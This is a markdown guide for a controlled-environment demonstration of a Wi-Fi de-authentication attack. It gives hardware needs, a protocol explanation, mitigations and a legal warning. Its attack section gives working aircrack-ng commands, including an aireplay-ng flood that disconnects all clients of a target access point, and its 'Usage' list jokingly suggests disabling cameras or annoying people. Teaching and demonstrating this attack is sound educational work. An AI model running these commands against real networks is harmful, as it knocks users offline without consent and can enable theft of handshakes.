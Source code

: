 ```yaml
---
title: Wi-Fi De-Authentication Attack Demonstration
date: 2023-07-02T19:03:55.149Z
description: A supporting document for performing a Wi-Fi De-Authentication
  attack in a controlled environment.
---
```

<!--StartFragment-->

Hardware Pre-requisites. Specific to this example, any equivalent hardware will be fine.

* GL mango router
* Raspberry Pi with Wi-Fi capabilities
* Ethernet cable (for connecting the Pi an the mango)
* Laptop with a wireless interface device capable of sending de-authentication frames. This typically requires an external Wi-Fi adapter with specific chipset support, such as the Alfa AWUS036NHA ([Link](https://www.amazon.co.uk/Alfa-Network-AWUS036NHA-U-MOUNT-CS-DBi/dp/B01D064VMS/ref=asc_df_B01D064VMS/?tag=googshopuk-21&linkCode=df0&hvadid=310776295886&hvpos=&hvnetw=g&hvrand=8206363845483223267&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9045569&hvtargid=pla-563714733276&psc=1))

### Technical Overview

A Wi-Fi de-authentication attack is a type of denial of service attack that targets the 802.11 wireless protocol. The attack forces client devices to disconnect from a Wi-Fi network by sending forged de-authentication frames to a target device, which appear to be legitimate frames sent by the access point. The target device, having been disconnected from the network, will then try to re-authenticate with the access point, which can result in a repeated process of disconnections and reconnections. During this time, it is possible to capture the WPA2 authentication handshake between the device and the access point and retrieve the password hash for the access point. This hash can then be cracked offline and you can retrieve the plaintext password of the access point. This is out of scope for this demonstration but tools such as `Wifite` exist to perform this attack.

The de-authentication frame contains the MAC address of the access point and the client, along with a reason code indicating why the client device was de-authenticated from the network.

* MAC Address - A unique identifier assigned to a network interface controller

In this example, clients will connect to the GL mango router, which will be connected via ethernet cable to a Raspberry Pi, which will be hosting a basic demonstration web application. The demonstrator will instruct client to go to the address of the Raspberry Pi web application (DNS optional to facilitate this), then will perform a de-authentication attack on the GL router, forcing all of the clients to disconnect from the router. When the clients attempt to refresh the page being hosted on the Raspberry Pi, it will not work, as they are no longer on the network. Below is a network diagram which describes the hardware setup.

![](/img/diagram.png)

### Performing the De-Authentication Attack

Performing the de-authentication attack is very easy. First you must install the `aircrack-ng` suite. Also, ensure that the wireless adapter capable of packet injection is plugged into the attacking machine.

```shell
$ sudo apt-get install aircrack-ng # Install aircrack-ng suite
$ iwconfig # This will list wireless interfaces, check yours is there
# Put the interface into monitor mode
$ sudo airmon-ng start wlan1 6 # Syntax may vary -
# - Wlan1 is interface to use, use channel 6
# Dump information of nearby APs
$ sudo airodump-ng wlan1mon
```

![](/img/cmd-output.png)

The output of the `airodump-ng` command will look like this. The only bits you are interested in are `ESSID,` which is the SSID of the router / access point, and `BSSID` which is the corresponding MAC address. Make a note of the MAC address of the target AP. Take a note of the channel, sometimes the attack will error and that will help later, if it does.

```shell
# Assume target MAC of target AP is: aa:bb:cc:dd:ee:ff
# Perform the attack
$ sudo aireplay-ng -0 0 -a aa:bb:cc:dd:ee:ff wlan1mon
# All client devices will now be disconnected from the network.
```

In some cases, you may get an error such as:

* wlan1mon is on channel X, but the AP uses channel Y.

In this case, you can:

* Physically re-connect the adapter, and retry the attack.
* Run the following command and CTRL+C out of the output straight away

```shell
$ sudo airodump-ng wlan1mon --bssid aa:bb:cc:dd:ee:ff --channel <ROUTER_CHANNEL_HERE>
# This will switch the channel, you can know run the attack with no issue.
```

Below is a basic graphical representation of what the attack is doing.

![](/img/diagram-2.png)

### Usage

* To test security of wireless networks - checking that devices reconnect to the network securely.
* Red-teaming - sneaking into buildings, disable cameras (just a thought, maybe not practical)
* To annoy people

### Mitigations

1. “Management Frame Protection” was introduced by Cisco. In essence, the process adds a hash value to all management frames that are sent (like a checksum, to ensure validity and integrity). Widely adopted and implemented, but Apple still appears to be the holdout.
2. From the relevant WiFi standard:

   > “De-authentication is not a request; it is a notification. De-authentication shall not be refused by either party

   There is no real way to prevent such an attack. Faraday cages and tinfoil hats only!
3. Using a strong WiFi password (PSK) can prevent attacks wherein the handshake is captured and the password hash cracked.
4. Reduce signal strength - reduces range of attack for a de-authentication attack.

It is important to understand that performing a de-authentication attack on a network without permission is illegal and can result in criminal and civil penalties. It is important to ensure that you have explicit permission form the network owner before attempting any such demonstration. It is also essential to be aware of the laws and regulations in your jurisdiction relation to cyber security and network attacks.